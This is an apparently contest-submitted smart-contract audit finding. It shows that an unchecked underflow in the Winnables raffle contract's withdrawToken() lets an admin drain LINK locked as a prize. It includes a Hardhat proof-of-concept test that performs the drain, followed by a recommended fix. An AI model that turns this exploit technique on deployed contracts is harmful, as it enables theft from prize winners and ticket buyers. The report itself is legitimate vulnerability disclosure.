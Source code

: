 Energetic Raisin Mockingbird

High

# WinnablesPrizeManager.sol :: withdrawToken() if the raffle token is LINK, it can be stolen, resulting in the winner receiving nothing and the admin collecting the profits from ticket sales without any cost.

## Summary
**`withdrawToken()`** allows admins to withdraw tokens that aren't locked in the raffle. However, if LINK is used as the raffle token, it can be withdrawn, allowing it to be stolen and leaving the winner with nothing.
## Vulnerability Detail
**`withdrawToken()`** is implemented as follows.
```Solidity
function withdrawToken(address token, uint256 amount) external onlyRole(0) {
        uint256 tokenBalance = IERC20(token).balanceOf(address(this));
        uint256 availableBalance;
@>      unchecked { availableBalance = tokenBalance - _tokensLocked[token]; }
        if (availableBalance < amount) revert InsufficientBalance();
        IERC20(token).safeTransfer(msg.sender, amount);
    }
```
As you can see, the **`availableBalance`** is calculated within an unchecked block, which means that if there's an over/underflow, the transaction won't revert. The issue arises when the raffle token is LINK, as this could cause an underflow due to the fee for **`_sendCCIPMessage()`** being paid in LINK.
```Solidity
function _sendCCIPMessage(
        address ccipDestAddress,
        uint64 ccipDestChainSelector,
        bytes memory data
    ) internal returns(bytes32 messageId) {
       ///...

        Client.EVM2AnyMessage memory message = Client.EVM2AnyMessage({
            receiver: abi.encode(ccipDestAddress),
            data: data,
            tokenAmounts: new Client.EVMTokenAmount[](0),
            extraArgs: "",
@>          feeToken: LINK_TOKEN 
        });

      ///...
    }
```
This causes an underflow when **`availableBalance = tokenBalance - _tokensLocked[token]`** if **`tokenBalance < _tokensLocked[token]`**, this is possible because the fees for the CCIP are paid with LINK. This underflow bypasses the **`if (availableBalance < amount) revert InsufficientBalance();`** check, allowing the tokens locked for the raffle to be stolen. 

The contest specifications explicitly state that admins cannot prevent a winner from withdrawing their prize.
> Winnables admins cannot do anything to prevent a winner from withdrawing their prize.

This issue allows the admin to bypass the rules, leading to a situation where people can purchase raffle tickets, but when a winner is selected, they are unable to withdraw their prize and the admin will collect the proceeds from ticket sales.
## POC
To reproduce the issue, copy the following POC into **`PrizeManager.js`**.
```js
it('Stealing locked tokens', async () => {
    //mint some LINK
    await (await link.connect(winnablesDeployer).mint(manager.address, ethers.utils.parseEther('100'))).wait();
    await (await token.connect(winnablesDeployer).mint(winnablesDeployer.address, 100)).wait();
    //send some LINK
    await (await link.transfer(manager.address, 100)).wait();

    const linkBalance = await link.balanceOf(manager.address);
    //lock LINK tokens for the raffle
    const tx = await manager.connect(winnablesDeployer).lockTokens(
      counterpartContractAddress,
      1,
      3,
      link.address,
      linkBalance
    );
    const { events } = await tx.wait();
    const ccipMessageEvent = ccipRouter.interface.parseLog(events[0]);
    expect(ccipMessageEvent.name).to.eq('MockCCIPMessageEvent');
    await expect(manager.getNFTRaffle(3)).to.be.revertedWithCustomError(manager, 'InvalidRaffle');
    await expect(manager.getETHRaffle(3)).to.be.revertedWithCustomError(manager, 'InvalidRaffle');
    const tokenInfo = await manager.getTokenRaffle(3);
    expect(tokenInfo.tokenAddress).to.eq(link.address);
    expect(tokenInfo.amount).to.eq(linkBalance);
    const prize = await manager.getRaffle(3);
    expect(prize.raffleType).to.eq(3);
    expect(prize.status).to.eq(0);
    expect(prize.winner).to.eq(ethers.constants.AddressZero);
    
    //steal LINK tokens blocked from the raffle
    await manager.withdrawToken(link.address, await link.balanceOf(manager.address));

    expect(await link.balanceOf(manager.address)).to.eq(0);  
  });
```
## Impact
Admins can steal the locked tokens from the raffle, preventing the winner from receiving anything and collecting the profits from ticket sales without any cost.
## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L218-L224
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/BaseCCIPSender.sol#L33
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L196-L213
## Tool used
Manual Review.
## Recommendation
To resolve the issue, prohibit the creation of raffles using the LINK token in **`lockTokens()`**.
```diff
function lockTokens(
        address ticketManager,
        uint64 chainSelector,
        uint256 raffleId,
        address token,
        uint256 amount
    ) external onlyRole(0) {
+       if (token == LINK_TOKEN) revert LINKTokenNotPermitted();
        RafflePrize storage rafflePrize = _checkValidRaffle(raffleId);
        uint256 tokenBalance = IERC20(token).balanceOf(address(this));
        if (tokenBalance < amount + _tokensLocked[token]) revert InvalidPrize();
        rafflePrize.raffleType = RaffleType.TOKEN;
        unchecked { _tokensLocked[token] += amount; }
        _tokenRaffles[raffleId].tokenAddress = token;
        _tokenRaffles[raffleId].amount = amount;

        _sendCCIPMessage(ticketManager, chainSelector, abi.encodePacked(raffleId));
        emit TokenPrizeLocked(raffleId, token, amount);
    }
```